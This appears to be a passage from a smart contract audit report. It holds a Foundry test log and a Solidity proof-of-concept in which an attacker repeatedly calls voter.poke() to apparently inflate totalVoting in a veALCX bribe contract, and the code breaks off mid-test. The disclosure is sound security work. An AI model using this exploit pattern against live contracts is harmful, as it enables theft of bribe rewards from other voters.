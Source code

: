 The log: 
```
[PASS] testBribeClaimingPoke_Normal() (gas: 5253330)
Logs:
  Bal balance of Bribe contract: 100000000000000000000000
  earnedBribes0 0
  earnedBribes2 0
  earnedBribes3 0
  Fast forward 1 epoch
  earnedBribes1 33333333333333333333333
  earnedBribes2 33333333333333333333333
  earnedBribes3 33333333333333333333333
  Bal balance of attacker: 33333333333333333333333
  Bal balance of Alice: 33333333333333333333333
  Bal balance of Bob: 33333333333333333333333
  Bal balance of Bribe contract: 1
```

The left token in the contract in this scenario is 1 token, that is just dust. 


## The full test cases: 

```solidity
 address Alice = address(0x11223344); 
    address Bob = address(0x55667788);
    uint256 tokenId3;  
    uint256 earnedBribes2; 
    uint256 earnedBribes3; 

    function testBribeClaimingPoke_Hacked() public {

        
        address attacker = address(this) ; 
        uint256 tokenId1 = createVeAlcx(address(this), TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        tokenId3 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        console2.log("totalVoting after vote(): %", IBribe(bribeAddress).totalVoting());
        console2.log("Call voter poke()"); 
                hevm.startPrank(attacker);
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
```